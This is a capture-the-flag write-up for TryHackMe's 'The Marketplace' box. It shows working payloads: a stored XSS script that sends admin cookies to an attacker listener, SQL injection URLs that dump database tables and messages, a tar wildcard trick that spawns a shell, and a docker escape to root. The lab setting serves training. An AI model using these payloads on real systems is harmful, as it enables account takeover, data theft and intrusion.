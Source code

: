 # TryHackMe - The Marketplace Write Up

## Description

The Marketplace is a boot to root challenge from [TryHackMe](https://tryhackme.com/jr/marketplace).  
The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?



## Machine Deployment

Deploy the machine and connect via OpenVPN to the TryHackMe network.  

Optional: assign the hostname 'thm' to the IP address of the deployed Marketplace box.  

```

$: echo -e "<ip> thm" | sudo tee -a /etc/hosts

```

## Scanning and Enumeration

Performing a service scan with nmap shows three ports are open:  
22 (SSH 7.6p1), 80 (nginx 1.19.2), and 32768 (Node.JS Express Middleware)
```

$: sudo nmap -sV thm

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 11:15 BST
Nmap scan report for thm (10.10.100.40)

Host is up (0.040s latency).

Not shown: 997 filtered ports

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
32768/tcp open  http    Node.js (Express middleware)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Accessing the website on port 80 brings us to the Marketplace homepage which allows users to register and submit listings.
![Alt text](/The%20Marketplace/img/homepage.png?raw=true "Homepage")

Testing the input fields on the 'login' and 'register' pages for any input validation vulnerabilities yields no results, as too does performing a directory bruteforce using gobuster.

## XSS Cookie Stealing
After signing up for an account, the input fields on the 'New Listing' page where tested.  
The data inserted into the fields are not sanitised which allows for a stored XSS: JavaScript can be inserted into the 'title' and 'description' input fields which is then executed when a user views the submission.

A report button is also present which notifies the administrators of the post for inspection.  
With this in mind, we can submit, and subsequently report, a listing which contains the malicious JS below to steal the cookies of the admins.

```<script>document.location="http://VPNIP:1234/i.php?cookie="+document.cookie</script>```
![Alt text](/The%20Marketplace/img/new_listing.png?raw=true "New submission")


To capture the HTTP request and cookie data we'll setup a netcat listener.  
```nc -lvp 1234```

After the listing has been reported and the admin clicks on the listing the request is captured.  
![Alt text](/The%20Marketplace/img/report_xss.png?raw=true "Cookie stealing via XSS")

With the admin cookie now in possession, we can gain access to the admin account by editing the token value of our cookie.  
This can be achieved using the ```cookie-editor``` Firefox plugin.  
![Alt text](/The%20Marketplace/img/cookie.png?raw=true "Cookie editor")

## SQL Injection within the Administrator Console
After gaining access to the administrator console we are given the ability to view and manage users' accounts and we also see our first flag to answer task #1.

Due to a lack of sanitisation of the 'user' parameter, we are able to perform SQL injection which can be used to exfiltrate data from the MySQL database.
![Alt text](/The%20Marketplace/img/mysql_error.png?raw=true "SQL injection leading to SQL error")

Using the below SQL injection we can list all the tables in the Marketplace DB:

```
http://thm/admin?user=1 and 1=2 union select group_concat(table_name), null, null, null from information_schema.tables where table_schema = database()
```
![Alt text](/The%20Marketplace/img/sqli_tables.png?raw=true "Extracting tables via SQLi")

The tables in this database are:

```
items
messages
users
```

The users table contains username and password hashes (bcrypt) - trying to attack the password hash will take you down a rabbit hole.  
As a rule of thumb on TryHackMe, if you can't bruteforce a password within 5 minutes odds are you are on the wrong track.

Exploring the 'messages' table gives us the information we need: the password to access the account of 'jake'
```
http://thm/admin?user=2 and 1=2 union select group_concat(user_to, message_content), null, null, null from messages
```
![Alt text](/The%20Marketplace/img/messages_password.png?raw=true "Viewing private message with password")

We can now SSH as 'jake' to the server and view our second flag which is in the home directory of the user.

## Privilege Elevation
Executing ```sudo -l``` we can see the user is able to execute a backup script as the user 'michael'

```
jake@the-marketplace:~$ sudo -l
User jake may run the following commands on the-marketplace:
  (michael) NOPASSWD: /opt/backups/backup.sh
```

The script contains the following code:
```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

Due to the wildcard character used by the tar command, we can exploit this to run any script of our choosing, in our case, opening a shell as 'michael'.
```
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh exec.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
jake@the-marketplace:/opt/backups$ echo "/bin/bash" > exec.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
michael@the-marketplace:/opt/backups$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```   
![Alt text](/The%20Marketplace/img/priv_esc_michael.png?raw=true "Elevating privileges to michael")

From the above 'id' output, we can see michael is in the 'docker' group which is our way to eleveating our privileges to root.  
Running the below docker command we can mount, as the root user, the root filesystem to /mnt.  
In the home directory of the root user we come across our final flag.

```
michael@the-marketplace:/home/michael$ docker run -it -v /:/mnt nginx chroot /mnt
# id
uid=0(root) gid=0(root) groups=0(root)
```
![Alt text](/The%20Marketplace/img/priv_esc_root.png?raw=true "Elevating privileges to michael")



